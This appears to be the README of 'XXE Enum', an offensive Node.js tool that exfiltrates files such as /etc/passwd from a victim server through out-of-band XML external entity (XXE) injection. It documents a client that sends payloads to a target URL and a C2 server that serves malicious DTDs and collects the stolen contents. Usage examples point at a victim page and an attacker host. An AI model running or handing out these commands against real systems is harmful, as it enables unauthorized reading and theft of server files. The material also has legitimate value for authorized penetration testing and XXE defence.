 # XXE Enum
Enumerate and exfiltrate files via out of band XXE, for situations where resolved entity is not displayed in the response, and directory listing is not available.

client.js would take a list of filenames, try exfiltrate the content of those files via XXE from your main target server, and server.js would serve external DTDs and receive the exfiltrated file content.

If other servers are parsing XML stored in your main target at a later time, you could also configure your server to serve a different DTD to conduct a different action or to track which server that "/etc/passwd" was from.

## Usage
**server.js**

```
$ node server.js -h

Options
        -h			Print this message

        -p <port>		The listening port, e.g. -p 1337, default 8800
        --b64			Use this option if expecting file content to be passed as base64
        --target <target_ip>	Use this option if you want to send different dtds to different servers, 
        e.g. send "send.dtd" only to your main target (target_ip), and send "send-alt.dtd" to any potential second order XXEs
        --https			Use this option if you want to start https server
        --key <key file>	The key file used to start https server, e.g. --key /root/key.pem
        --cert <cert file>	The cert file used to start https server, e.g --cert /root/cert.crt

// out of the box
$ node server.js

// use a different port
$ node server.js -p 1337

// start a https server
$ node server.js -p 1337 --https --key /root/key.pem --cert /root/cert.crt

// serve send.dtd only to 192.168.1.100, while send send-alt.dtd to all other IPs, 
// if they are requesting the external DTD, i.e. vulnerable to XXE
$ node server.js --target 192.168.1.100
```

**client.js**

```
$ node client.js -h

Options
        -h			Print this message

        -u <url>		(Required) the victim page, e.g. -u http://vulnerable.site:8080/page.php?a=1
        -w <wordlist>		(Required) the wordlist to load, e.g. -w /usr/share/wordlists/filenames.txt
        --c2 <url>		(Required) the server where server.js is run and waiting for incoming request 
        from victim, e.g. --c2 http://attacker.site:8090

        --proxy <proxy>		The http proxy to go through for all requests, e.g. --proxy http://127.0.0.1:8080
        --base <path>		The base path prefixed to all filenames, e.g. --base "/var/www", default "/"
        --php			Use this option if the server can handle php protocols, i.e. able to encode 
        the file content using base64
        -t <thread>		Indicate how many threads to run simultaneously, e.g. -t 15, default 5
        -v			Verbose output
        --headers <headers>	Additional request headers (besides content-type, content-length, and host) in JSON format, e.g. --headers '{"X-CSRF-Token": "awesome_token", "Cookie": "sid=secret_session; admin=1;"}'
        --body <xml>		The normal POST request body, e.g. --body "<subscribe><email>test@example.com</email><name>test</name></subscribe>", 
        default: <login><username>test</username><password>test</password></login>

// minimal
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt \
--c2 http://192.168.1.200:8800

// full blown
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 \
-w /usr/share/wordlists/filenames.txt --c2 http://192.168.1.200:8800 \
--proxy http://127.0.0.1:8080 --base "/var/www" -t 15 --php -v \
--headers '{"Cookie": "sid=secret_session; admin=1;", "Referer": "http://192.168.1.100/index.php"}' \
--body "<subscribe><email>test@example.com</email><name>test</name></subscribe>"
```

## TODO
- https proxy not working. Only http proxy atm